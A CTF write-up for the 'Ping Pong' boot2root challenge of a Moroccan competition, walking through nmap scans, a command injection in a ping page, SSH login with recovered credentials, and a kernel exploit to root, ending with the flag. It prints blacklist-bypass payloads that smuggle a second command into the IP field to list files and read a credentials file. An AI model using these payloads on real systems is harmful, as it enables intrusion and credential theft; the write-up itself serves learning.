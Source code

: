```yaml
---
layout: default
title : muzec - THN B'Darija CTF Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/163996136-8eb23528-8405-4f79-8f8e-2647dd9f1929.png)

Welcome to the Moroccan national CTF competition write-ups hosted by Th3 Hacker News B'darija which is a fun one really great challanges and guess what we won me and my teammate `Aptx1337` .

![image](https://user-images.githubusercontent.com/69868171/163996754-40f5061e-8de2-419e-84df-dbd063d20ec1.png)

Now let get started already without wasting to much of time on it.

### Boot2Root Ping Pong

We always start with an nmap scan.....

```
nmap -p- --min-rate 10000 -oN nmap/allports -v IP
```

```
# Nmap 7.91 scan initiated Tue Apr 19 10:08:59 2022 as: nmap -p- --min-rate 10000 -oN nmap/allports.tcp -v 165.232.89.13
Increasing send delay for 165.232.89.13 from 0 to 5 due to 143 out of 476 dropped probes since last increase.
Increasing send delay for 165.232.89.13 from 40 to 80 due to 92 out of 305 dropped probes since last increase.
Increasing send delay for 165.232.89.13 from 80 to 160 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 165.232.89.13 from 160 to 320 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 165.232.89.13 from 320 to 640 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 165.232.89.13 from 640 to 1000 due to 11 out of 11 dropped probes since last increase.
Warning: 165.232.89.13 giving up on port because retransmission cap hit (10).
Nmap scan report for 165.232.89.13
Host is up (0.33s latency).
Not shown: 58856 filtered ports, 6675 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
587/tcp open  submission

Read data files from: /usr/bin/../share/nmap
# Nmap done at Tue Apr 19 10:14:28 2022 -- 1 IP address (1 host up) scanned in 329.15 seconds
```

Now let use some default nmap scripts and service detection on it to see what we have XD.

```
┌──(muzec㉿Muzec-Security)-[~/Desktop/CTFPlayground/thbctf/ping]
└─$ nmap -sC -sV -oN nmap/normal.tcp 165.232.89.13  -p22,80 
Starting Nmap 7.91 ( https://nmap.org ) at 2022-04-19 10:12 WAT
Nmap scan report for 165.232.89.13
Host is up (0.58s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Ubuntu 6ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 00:3f:c8:b2:5c:a0:4f:c0:3f:67:f4:9a:fe:ee:2b:ab (ECDSA)
|_  256 8c:df:3e:bf:e9:c7:f5:a6:5a:d9:cc:be:73:89:ab:3e (ED25519)
80/tcp open  http    Apache httpd 2.4.48 ((Ubuntu))
|_http-server-header: Apache/2.4.48 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 119.14 seconds
```

Now we know we have 2 open ports let check what we have running on the webserver.

![image](https://user-images.githubusercontent.com/69868171/164002000-cf2624d9-41fc-49e9-ad7d-e82908f62877.png)

That a simple installation page of apache webserver let confirm we have anything special on `index.php` .

![image](https://user-images.githubusercontent.com/69868171/164002350-263d8d47-5f0b-4193-be78-2d2027c6d40e.png)

Interesting a page which we can ping with it.

![image](https://user-images.githubusercontent.com/69868171/164002580-5efe828f-c462-47b4-92da-02f0182fd9a4.png)

Do we have anything special in the source code.

![image](https://user-images.githubusercontent.com/69868171/164002712-26fd41f8-9edc-4f2c-a81b-a20dd42b2e4b.png)

We are blacklist from running some `OS` command which can lead to command injection but not to worry let try some bypassing.

![image](https://user-images.githubusercontent.com/69868171/164003855-a2a568bd-3c58-47a3-bb97-cbd616460b11.png)

Now we have command injection let see what we can loot `credentials` `credentials` XD 

![image](https://user-images.githubusercontent.com/69868171/164006193-70db47ce-6484-4f45-8815-6e4ee94c83ef.png)

```
127.0.0.1;llss${IFS}-la
```

Now that is what am talking about `.creds` seems promising let see what we have in it.

![image](https://user-images.githubusercontent.com/69868171/164006653-15d48b6a-2330-4a70-b5f2-47559a7fbd88.png)

```
127.0.0.1;cacatt${IFS}.creds
```

Credentials seems encoder with help of cyberchef let decode it.

![image](https://user-images.githubusercontent.com/69868171/164007092-51bde298-a81c-4415-bf18-ef64d6b3a05d.png)


Now we have credentials let hit SSH.

![image](https://user-images.githubusercontent.com/69868171/164007462-7a5277cb-fc6a-4f3a-83e1-e9254ba1660d.png)

We are in time to get root checking for `sudo` and `SUID` i got nothing so let some kernal version exploit.

![image](https://user-images.githubusercontent.com/69868171/164008067-54c079cd-311e-4e46-884a-ab4528cac796.png)


Now let hit google for some research after trying some exploits with no success i got an exploit on github and decided to give it a try 

![image](https://user-images.githubusercontent.com/69868171/164011686-81f393ef-9d16-43a4-991f-07328e6c77b4.png)

Now let run our exploit.

![image](https://user-images.githubusercontent.com/69868171/164012344-39f017c8-d3cd-4846-ba7e-b4765652eecb.png)

Boom we are root and we have the `flag`. 

![image](https://user-images.githubusercontent.com/69868171/164013128-fa0cf565-af88-4b60-b473-620cef217c24.png)

```
thnb{p1nG_p0onG_g4m3_w4s_FuN_4kh4y_Sp1p47_696969}
```
